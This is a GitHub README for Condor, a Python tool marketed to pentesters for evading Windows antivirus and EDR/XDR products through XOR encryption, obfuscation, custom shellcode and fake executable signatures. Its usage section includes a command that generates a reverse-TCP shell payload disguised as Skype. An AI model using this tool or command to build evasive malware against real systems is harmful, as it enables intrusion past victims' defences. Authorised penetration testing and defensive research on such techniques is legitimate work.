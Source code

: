<h1 align="center">「🛡️」About Condor</h1>

<p align="center"><img src="assets/banner.png"></p>

<p align="center">Condor is a tool created to help pentesters bypass protections like AVs/EDRs/XDRs in the Windows operating system. Condor was developed in Python and has several advantages to help pentesters.</p>

## Executable Scan

![](assets/scan.png)

## Benefits

* Easy to use
* Bypass multiple AVs/EDRs/XDRs
* Two XOR encryption process and an obfuscation
* The generated file is less than 7mb
* Using custom shellcode
* Fake signature on executable

## Environment support

| OS/Subsystem | Installation of All Requirements | Compilation | EXE Execution |
| ----------- | ----------- | ----------- | ----------- |
| Windows | ❌ | ✅ | ✅ |
| Linux | ✅ | ✅ | ❌ |
| Mac | not tested | not tested | not tested |
| WSL | ✅ | ✅ | ✅ |

## Help

![](assets/help.png)
[Reference](https://antiscan.me/scan/new/result?id=ioGKcbzBcSzj)


## Usage

It is recommended to run the tool in a WSL environment, as you will need to generate shellcodes using msfvenom and compile to EXE using pyinstaller.

```
$ git clone https://github.com/MrEmpy/Condor.git
$ cd Condor
$ chmod +x install.sh
$ sudo ./install.sh
...
$ python3 condor.py -p windows/x64/shell/reverse_tcp -lh <LOCAL HOST> -lp <LOCAL PORT> -i skype
```

It is necessary to have wine installed on the machine to be able to install Python. Install as shown in the screenshot:

![](assets/python-install.png)

## Buy me a coffee?

<img src="https://static.livepix.gg/images/logo.svg" height="50" widght="50">

[LivePix](https://livepix.gg/mrempy)
